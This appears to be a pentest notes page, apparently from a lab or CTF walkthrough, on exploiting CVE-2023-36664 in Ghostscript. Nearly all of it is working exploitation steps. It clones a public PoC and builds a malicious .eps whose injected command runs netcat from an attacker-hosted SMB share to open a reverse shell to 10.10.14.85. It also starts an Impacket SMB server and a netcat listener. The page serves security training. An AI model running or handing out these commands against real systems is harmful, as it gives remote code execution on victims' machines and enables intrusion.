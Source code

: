 # CVE-2023-36664

Vulnerability disclosed in Ghostscript prior to version 10.01.2 leads to code execution.

> Artifex Ghostscript through 10.01.2 mishandles permission validation for pipe devices (with the %pipe% prefix or the | pipe character prefix).

The exploitation can occur upon opening a PS or EPS file and can allow code execution caused by Ghostscript mishandling permission validation for pipe devices.



## PoC

{% embed url="https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection" %}

<figure><img src="../.gitbook/assets/image (239).png" alt="" width="563"><figcaption></figcaption></figure>

The schema above will be the strategy that we will use for exploitation phase.



### Clone the CVE PoC repo

```bash
git clone https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
```



### Build .eps payload with RevShell

We will use the python script to generate a .eps file that, when opened , it will create a connection to the attacker machine using NetCat in a SMB Shares (hosted from attacker machine).

{% code overflow="wrap" %}
```bash
python3 CVE_2023_36664_exploit.py --inject --payload 'cmd.exe /c \\\\10.10.14.85\\smbFolder\\nc64.exe -e cmd 10.10.14.85 9009' --filename payload.eps
```
{% endcode %}



### Starting a SMB Server with nc64.exe inside

Now, we're starting a SMB Server with Impacket tool with NetCat (nc64.exe)

```bash
# download the nc64.exe
wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe

# start smb server in the current directory
impacket-smbserver smbFolder $(pwd) -smb2support
```



### Starting listener on Kali

```
nc -lnvp 9009
```

### Exploitation

When the .eps file will execute, a connection in a NetCat listener will appair.
